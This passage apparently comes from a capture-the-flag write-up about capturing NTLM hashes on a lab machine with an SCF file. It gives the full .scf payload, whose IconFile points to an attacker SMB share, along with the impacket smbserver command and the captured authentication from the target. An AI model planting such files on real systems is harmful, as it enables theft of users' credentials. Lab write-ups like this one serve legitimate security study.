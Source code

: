 ![](img/2022-06-05-00-28-19.png)
As the webpage says `our testing team will review the uploads manually and initiates the testing soon`, we can think the machine is vulnerable to SCF.

## SCF Hash stealing (User shell)
To test if the target is vulnerable to SCF, we will craft an `.scf` file:
```bash
❯ nvim Exploits/file.scf
❯ cat Exploits/file.scf
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/file.scf
       │ Size: 85 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ [Shell]
   2   │ Command=2
   3   │ IconFile=\\10.10.16.2\ordinary.ico
   4   │ [Taskbar]
   5   │ Command=ToggleDesktop
───────┴───────────────────────────────────────────────────────────────────────────
```
And will create a resource with `impacket-smbserver`:
```bash
❯ sudo ./Exploits/smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Now, if we uplaoad the file, the system will try to download the `IconFile` from our smbserver, allowing us to collect its hash:
```bash
[*] Incoming connection (10.10.11.106,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
```